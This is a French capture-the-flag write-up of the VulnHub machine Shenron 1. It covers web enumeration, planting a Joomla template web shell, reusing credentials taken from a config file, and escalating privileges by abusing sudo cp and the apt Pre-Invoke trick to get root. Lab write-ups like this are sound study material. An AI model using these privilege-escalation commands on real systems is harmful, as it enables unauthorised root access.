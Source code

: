 ```yaml
---
title: "Solution du CTF Shenron 1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[shenron: 1](https://vulnhub.com/entry/shenron-1,630/) fait partie d'une série de CTFs proposée sur VulnHub et créé par [@shubhammandloi](https://twitter.com/shubhammandloi).

```
Nmap scan report for 192.168.56.60
Host is up (0.00018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0e22600af7d478f64208d76a6bb0b162 (RSA)
|   256 b30ccd0a67c3abd22327021fb2fb9112 (ECDSA)
|_  256 2973e0f26df6fbde4c6fb27a1969f582 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu
```

## Comme une lettre à la poste

Le site web fournit directement la page par défaut d'Apache donc on attaque directement avec l'énumération web.

Je trouve déjà des identifiants dans un dossier `test` :

```html
$ curl http://192.168.56.60/test/password
<!DOCTYPE html>
<html>
<head>
        <title>PASSWORD</title>
</head>
<body>
        <h1>LOTS OF INFORMATION ARE HERE ;-)</h1>


        <h1> You Are Very Near .......</h4>

        <!--
         "All The Best"
         Credentials:- "admin:3iqtzi4RhkWANcu@$pa$$"

         --> 
</body>
</html>
```

Et deuxièmement un Joomla installé à l'adresse `/joomla` (tout simplement)

Il faut se rendre sur `/joomla/administrator` pour accèder au panel d'administration.

On ne croise pas du Joomla très régulièrement sur les CTFs. Heureusement j'ai déjà eu le cas sur le CTF [Rosee de Wizard Labs]({% link _posts/2020-11-17-Solution-du-CTF-Rosee-de-Wizard-Labs.md %}#its-all-about-osint-you-fool) par conséquent je vais suivre le même cheminement pour éditer le template par défaut et ajouter un fichier PHP qui me donnera mon shell web.

Transformé à peine une minute plus tard en beau reverse shell avec PTY, j'en profite pour regarder dans `/etc/passwd` :

```
jenny:x:1001:1001::/home/jenny:/bin/bash
shenron:x:1002:1002::/home/shenron:/bin/bash
```

## Jenny! Jenny! Jenny!

Quand je recherche les fichiers de jenny je ne trouve que son dossier personnel et le fichier `/var/www/html/joomla/htaccess.txt`. Ce dernier ne contient rien d'intéressant (juste des règles d'URL rewriting).

Pour shenron il y a un fichier sans doute intéressant mais non lisible pour le moment :

`-rwx------ 1 shenron shenron 43 Dec 13  2020 /var/opt/password.txt`

Dans le fichier de configuration de Joomla je trouve des infos prometteuses :

```php
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'jenny';
        public $password = 'Mypa$$wordi$notharD@123';
        public $db = 'joomla_db';
        public $dbprefix = 'sotv8_';
        public $live_site = '';
        public $secret = '3xAUrgQhKGZjsund';
```

Je zappe directement l'étape MySQL et j'utilise les identifiants qui marchent pour un `su jenny`.

De là je remarque que je peux exécuter une commande en tant que shenron :

```bash
jenny@shenron:~$ sudo -l
Matching Defaults entries for jenny on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on shenron:
    (shenron) NOPASSWD: /usr/bin/cp
```

Je ne peux pas exploiter la situation pour récupérer le fichier password :

```bash
jenny@shenron:~$ sudo -u shenron /usr/bin/cp /var/opt/password.txt /tmp/
jenny@shenron:~$ cat /tmp/password.txt 
cat: /tmp/password.txt: Permission denied
jenny@shenron:~$ ls -al /tmp/password.txt
-rwx------ 1 shenron shenron 43 Nov 17 21:23 /tmp/password.txt
```

On peut passer outre en indiquant de ne pas préserver les permissions du fichier :

```bash
jenny@shenron:~$ sudo -u shenron /usr/bin/cp --no-preserve=mode /var/opt/password.txt /tmp/password2.txt
jenny@shenron:~$ ls -al /tmp/password2.txt 
-rw-rw-r-- 1 shenron shenron 43 Nov 17 21:26 /tmp/password2.txt
jenny@shenron:~$ cat /tmp/password2.txt
shenron : YoUkNowMyPaSsWoRdIsToStRoNgDeAr
```

Depuis l'utilisateur shenron je peux obtenir le premier flag :

```bash
shenron@shenron:~$ cat local.txt 
098bf43cc909e1f89bb4c910bd31e1d4
```

## Say cAPTain, say wot

Let's go pour un GTFObins ?

```bash
shenron@shenron:~$ sudo -l
[sudo] password for shenron: 
Matching Defaults entries for shenron on shenron:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shenron may run the following commands on shenron:
    (ALL : ALL) /usr/bin/apt
```

GTFObins a [plusieurs astuces pour apt](https://gtfobins.github.io/gtfobins/apt/) mais certaines semblent nécessiter une connexion à Internet et la VM est configurée en host only. La dernière fonctionne correctement ici : 

```bash
shenron@shenron:~$ sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
                                                               
  mmmm  #                                                mmm   
 #"   " # mm    mmm   m mm    m mm   mmm   m mm            #   
 "#mmm  #"  #  #"  #  #"  #   #"  " #" "#  #"  #           #   
     "# #   #  #""""  #   #   #     #   #  #   #   """     #   
 "mmm#" #   #  "#mm"  #   #   #     "#m#"  #   #         mm#mm 
                                                               
Your Root Flag Is Here :- aa087b2d466cd593622798c8e972bffb



If You Like This Machine Follow Me On Twitter..
Twitter Handle:-    https://twitter.com/shubhammandloi or @shubhammandloi
```

Ce fut très rapide :p
